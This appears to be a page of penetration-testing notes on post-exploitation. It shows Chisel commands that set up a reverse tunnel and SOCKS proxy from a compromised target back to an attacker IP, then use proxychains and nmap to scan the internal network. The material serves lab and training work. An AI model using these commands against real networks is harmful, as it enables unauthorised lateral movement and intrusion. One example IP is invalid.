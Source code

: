 ```yaml
---
description: This page contains notes on post-exploitation
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Post Exploitation

### About Post Exploitation

Post-exploitation refers to the phase of a cybersecurity attack that occurs after an attacker has successfully compromised a target system. During this phase, the attacker aims to maintain access, gather valuable information, escalate privileges, and potentially launch further attacks. It involves activities such as lateral movement within the network, data exfiltration, creating backdoors, and covering their tracks to avoid detection. Post-exploitation is a crucial part of the attack lifecycle as it allows the attacker to maximize the impact of their initial compromise and achieve their ultimate objectives.

### Tunneling with Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

#### Exposing Internal Service

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

On attacker machine, run this command:

```bash
chisel server -p 2525 --socks5 --reverse -v
```

Example, on target there is service running on port 8000 at localhost, then run this command:

```bash
./chisel client 10.10.14.46:2525 R:8001:127.0.0.1:8000
```

Now, we can access the service from port 8001 on our machine.

#### Scanning Internal Server / IP

From attacker machine, run chisel server.

```
./chisel server -p 31337 --socks5 --reverse -v
```

From Client:&#x20;

```
./chisel client 10.10.200.13:31337 R:31338:socks
```

Now, from attacker machine, add proxy to proxychains4.conf

```
socks5 127.0.0.1 31338
```

Now you can scan internal target IP from attacker machine.

```
proxychains4 nmap 192.168.1.337
```

### Related Links

* [**Windows Post Exploitation**](../active-directory/post-exploitation.md)
* [**Linux Post Exploitation**](../linux/linux-post-exploitation.md)
